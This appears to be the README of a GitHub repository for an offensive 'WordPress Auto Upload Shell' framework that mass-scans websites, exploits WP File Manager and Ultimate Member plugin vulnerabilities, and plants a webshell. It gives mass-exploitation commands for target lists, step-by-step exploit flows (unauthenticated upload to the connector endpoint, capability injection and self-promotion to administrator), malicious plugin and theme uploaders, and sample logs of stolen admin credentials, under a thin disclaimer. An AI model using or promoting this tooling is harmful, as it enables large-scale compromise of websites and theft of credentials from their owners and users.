


<div align="center">

<!-- ═══════════════════════════════════════════════════════════════ -->
<!--           WORDPRESS AUTO UPLOAD SHELL — OFFICIAL README         -->
<!-- ═══════════════════════════════════════════════════════════════ -->

<!-- ANIMATED HEADER -->


<!-- BADGES -->
<p>
  
  
  
  
  
</p>

<!-- ASCII BANNER -->
```
██╗    ██╗██████╗       ███████╗██╗██╗     ███████╗███╗   ███╗ █████╗ ███╗   ██╗ █████╗  ██████╗ ███████╗██████╗ 
██║    ██║██╔══██╗      ██╔════╝██║██║     ██╔════╝████╗ ████║██╔══██╗████╗  ██║██╔══██╗██╔════╝ ██╔════╝██╔══██╗
██║ █╗ ██║██████╔╝█████╗█████╗  ██║██║     █████╗  ██╔████╔██║███████║██╔██╗ ██║███████║██║  ███╗█████╗  ██████╔╝
██║███╗██║██╔═══╝ ╚════╝██╔══╝  ██║██║     ██╔══╝  ██║╚██╔╝██║██╔══██║██║╚██╗██║██╔══██║██║   ██║██╔══╝  ██╔══██╗
╚███╔███╔╝██║           ██║     ██║███████╗███████╗██║ ╚═╝ ██║██║  ██║██║ ╚████║██║  ██║╚██████╔╝███████╗██║  ██║
 ╚══╝╚══╝ ╚═╝           ╚═╝     ╚═╝╚══════╝╚══════╝╚═╝     ╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝  ╚═╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝

██╗   ██╗██████╗ ██╗      ██████╗  █████╗ ██████╗     ███████╗██╗  ██╗███████╗██╗     ██╗     
██║   ██║██╔══██╗██║     ██╔═══██╗██╔══██╗██╔══██╗    ██╔════╝██║  ██║██╔════╝██║     ██║     
██║   ██║██████╔╝██║     ██║   ██║███████║██║  ██║    ███████╗███████║█████╗  ██║     ██║     
██║   ██║██╔═══╝ ██║     ██║   ██║██╔══██║██║  ██║    ╚════██║██╔══██║██╔══╝  ██║     ██║     
╚██████╔╝██║     ███████╗╚██████╔╝██║  ██║██████╔╝    ███████║██║  ██║███████╗███████╗███████╗
 ╚═════╝ ╚═╝     ╚══════╝ ╚═════╝ ╚═╝  ╚═╝╚═════╝     ╚══════╝╚═╝  ╚═╝╚══════╝╚══════╝╚══════╝
```

**Automated WordPress Exploitation & Shell Upload Framework**

</div>

---

## 📖 Table of Contents

- [🔥 Overview](#-overview)
- [🎯 Vulnerabilities](#-vulnerabilities)
- [✨ Features](#-features)
- [📦 Installation](#-installation)
- [🚀 Usage](#-usage)
- [📂 Project Structure](#-project-structure)
- [🛠️ How It Works](#️-how-it-works)
- [📊 Output Format](#-output-format)
- [⚠️ Disclaimer](#️-disclaimer)
- [📡 Connect](#-connect)

---

## 🔥 Overview

**WordPress Auto Upload Shell** is an offensive security framework that automates the detection and exploitation of **WordPress plugin vulnerabilities**, then uploads a **File Manager webshell** to the compromised target.

It targets two major WordPress plugin vulnerability classes:

| Plugin | CVE | Type | Auth |
|--------|-----|------|------|
| **WP File Manager** | CVE-2020-25213 | Arbitrary File Upload → RCE | ❌ Unauth |
| **Ultimate Member** | CVE-2026-19423 / CVE-2026-12251 | Capability Injection → Admin | ❌ Unauth |

Once admin access is obtained, the framework drops the **UnknownSec File Manager shell** on the target.

---

## 🎯 Vulnerabilities

<table align="center">
  <thead>
    <tr>
      <th>🔴 CVE</th>
      <th>📦 Plugin</th>
      <th>⚡ Type</th>
      <th>💯 CVSS</th>
      <th>🎯 Impact</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td align="center"><b>CVE-2020-25213</b></td>
      <td align="center">WP File Manager < 7.0</td>
      <td align="center">Arbitrary File Upload</td>
      <td align="center"></td>
      <td align="center">Unauth RCE</td>
    </tr>
    <tr>
      <td align="center"><b>CVE-2026-19423</b></td>
      <td align="center">Ultimate Member < 2.13.0</td>
      <td align="center">Capability Injection</td>
      <td align="center"></td>
      <td align="center">Unauth Admin</td>
    </tr>
    <tr>
      <td align="center"><b>CVE-2026-12251</b></td>
      <td align="center">Ultimate Member < 2.12.1</td>
      <td align="center">Privilege Escalation</td>
      <td align="center"></td>
      <td align="center">Unauth Admin</td>
    </tr>
  </tbody>
</table>

---

## ✨ Features

<div align="center">

<table>
  <tr>
    <td align="center" width="33%">
      <h3>🔍 Detection</h3>
      <ul align="left">
        <li>Deep WordPress fingerprinting</li>
        <li>Multi-signal version detection</li>
        <li>Plugin readme.txt parsing</li>
        <li>Connector endpoint probing</li>
      </ul>
    </td>
    <td align="center" width="33%">
      <h3>⚡ Exploitation</h3>
      <ul align="left">
        <li>Capability injection (UM)</li>
        <li>Arbitrary file upload (WPFM)</li>
        <li>Multi-endpoint fallback</li>
        <li>REST API self-promotion</li>
      </ul>
    </td>
    <td align="center" width="33%">
      <h3>💀 Post-Exploit</h3>
      <ul align="left">
        <li>File Manager shell upload</li>
        <li>4 upload vectors</li>
        <li>RCE verification</li>
        <li>Auto shell URL save</li>
      </ul>
    </td>
  </tr>
</table>

</div>

### 🎁 Additional Features

- ⚡ **Multithreaded** — 60+ concurrent workers
- 🎭 **Randomized headers** — Chrome/Firefox/Safari rotation
- 🛡️ **Strict verification** — no false positives
- 📊 **Live stats** — real-time counters
- 💾 **Auto-save** — shells.txt + admin_confirmed.txt
- 🎨 **Colored output** — bright red for FAILED
- 🔧 **Auto-payload** — fallback shell if file.php missing

---

## 📦 Installation

### Prerequisites

```bash
Python 3.8+
pip (Python package manager)
```

### Quick Install

```bash
# Clone the repository
git clone https://github.com/HackfutSecRoot/wordpress-auto-upload-shell.git
cd wordpress-auto-upload-shell

# Install dependencies
pip install -r requirements.txt

# Or manually
pip install requests urllib3 colorama beautifulsoup4
```

### requirements.txt

```txt
requests>=2.28.0
urllib3>=1.26.0
colorama>=0.4.6
beautifulsoup4>=4.11.0
```

---

## 🚀 Usage

### 🔴 WP File Manager Mass Exploit

```bash
python wpfm_exploit.py -l targets.txt -t 60
```

### 🟠 Ultimate Member Mass Exploit

```bash
python um_exploit.py -l targets.txt -t 20 --upload
```

### 🟢 Single Target

```bash
python wpfm_exploit.py -u http://target.com -v
python um_exploit.py -u http://target.com --upload -v
```

### 🔵 Non-Mutating Probe (Safe Detection)

```bash
python um_exploit.py -u http://target.com --probe
```

### Arguments

| Argument | Description | Default |
|----------|-------------|---------|
| `-u, --url` | Single target URL | — |
| `-l, --list` | File with targets (one per line) | — |
| `-t, --threads` | Number of concurrent threads | `60` |
| `--timeout` | Per-request timeout (seconds) | `15` |
| `--probe` | Non-mutating detection only | `False` |
| `--upload` | Upload shell after admin | `False` |
| `-o, --output` | Output directory | `./wpfm_RESULTS` |
| `-v, --verbose` | Verbose output | `False` |

---

## 📂 Project Structure

```
wordpress-auto-upload-shell/
│
├── 📄 README.md                    # This file
├── 📄 requirements.txt             # Python dependencies
├── 📄 LICENSE                      # MIT License
│
├── 🔴 wpfm_exploit.py              # WP File Manager mass exploit
├── 🟠 um_exploit.py                # Ultimate Member mass exploit
├── 🟢 create_uploaders.py          # Generate plugin.zip / theme.zip
│
├── 💀 file.php                     # UnknownSec File Manager shell
│                                 # ⚠️ MUST BE NEXT TO THE SCRIPT
│
├── 📁 wpfm_RESULTS/                # Auto-generated
│   ├── shells.txt                  # Uploaded shell URLs
│   └── admin_confirmed.txt         # Confirmed admin creds
│
├── 📁 Uploaders/                   # Shell uploaders
│   ├── plugin.zip                  # Malicious plugin
│   ├── theme.zip                   # Malicious theme
│   └── index.php                   # Simple shell
│
└── 📄 targets.txt                  # Target list
```

---

## 🛠️ How It Works

### 🔴 WP File Manager (CVE-2020-25213)



**Flow:**
1. **Fingerprint** — Detect WordPress via 5+ signals
2. **Version check** — Read `readme.txt` for `Stable tag`
3. **Exploit** — POST to `connector.minimal.php` with `cmd=upload`
4. **Verify** — GET the uploaded file, check for `UnknownSec Shell` marker
5. **Save** — Append URL to `shells.txt`

### 🟠 Ultimate Member (CVE-2026-19423)



**Flow:**
1. **Register** — Create subscriber account (auto-login)
2. **Extract nonce** — Get `profile_nonce` from profile edit page
3. **Inject capability** — POST `role=manage_options` (not `administrator`!)
4. **Repeat** — Inject `delete_users`, `promote_users`, etc.
5. **Self-promote** — REST API `roles: ["administrator"]`
6. **Upload** — Drop File Manager shell via 4 vectors

---

## 📊 Output Format

### Console Output

```
[14:32:15] - http://target.com/wp-content/plugins/wp-file-manager/lib/files/shell_abc123.php - [Shell Uploaded Successfully]
[14:32:16] - http://target2.com - [Upload Failed]
[14:32:17] - http://target3.com - [FileManager Not Installed]
[14:32:18] - http://target4.com - [Not vuln]
```

### shells.txt

```
http://target.com/wp-content/plugins/wp-file-manager/lib/files/shell_abc123.php
http://target2.com/wp-content/uploads/shell_xyz789.php
```

### admin_confirmed.txt

```
http://target.com|um_a1b2c3:P@ssw0rd_xyz!
http://target2.com|um_d4e5f6:P@ssw0rd_abc!
```

---

## 🎨 Color Scheme

| Color | Meaning | Example |
|-------|---------|---------|
| 🟢 `GREEN_BOLD` | Success | `Shell Uploaded Successfully` |
| 🔴 `RED_BOLD` | Failure | `Upload Failed`, `Not vuln` |
| 🟡 `LIGHT_YELLOW_BOLD` | Timestamp | `[14:32:15]` |
| ⚪ `LIGHT_WHITE_BOLD` | Target/URL | `http://target.com/...` |

---

## ⚠️ Disclaimer

<div align="center">

```
╔══════════════════════════════════════════════════════════════════╗
║                                                                  ║
║   ☠️  FOR EDUCATIONAL AND AUTHORIZED SECURITY TESTING ONLY  ☠️   ║
║                                                                  ║
║   • All tools are provided AS-IS for LAB use                    ║
║   • Use ONLY on systems you own or have WRITTEN permission       ║
║   • Unauthorized access is ILLEGAL and punishable by law         ║
║   • The author is NOT responsible for any misuse                 ║
║                                                                  ║
║   "With great power comes great responsibility."                 ║
║                                                                  ║
╚══════════════════════════════════════════════════════════════════╝
```

</div>

---

## 📡 Connect

<div align="center">

### 💀 HackfutSecRoot

<p>
  <a href="https://github.com/HackfutSecRoot">
    
  </a>
  <a href="https://t.me/+gsrpvshwGUc5MzI0">
    
  </a>
  <a href="https://pastebin.com/u/hackfut">
    
  </a>
</p>

### 📢 Channels

<p>
  <a href="https://t.me/+gsrpvshwGUc5MzI0">
    
  </a>
  <a href="https://t.me/LinxProdXs404">
    
  </a>
</p>

</div>

---

## 🏆 Contributing

```bash
# Fork the repo
# Create a branch
git checkout -b feature/amazing-feature

# Commit
git commit -m "Add amazing feature"

# Push
git push origin feature/amazing-feature

# Open a Pull Request
```

---

## 📜 License

Distributed under the **MIT License**. See `LICENSE` for more information.

---

<div align="center">

<!-- VISITOR COUNTER -->


<!-- FOOTER TYPING -->
<p>
  
</p>

**💀 Made with blood, sweat, and 0days 💀**

</div>
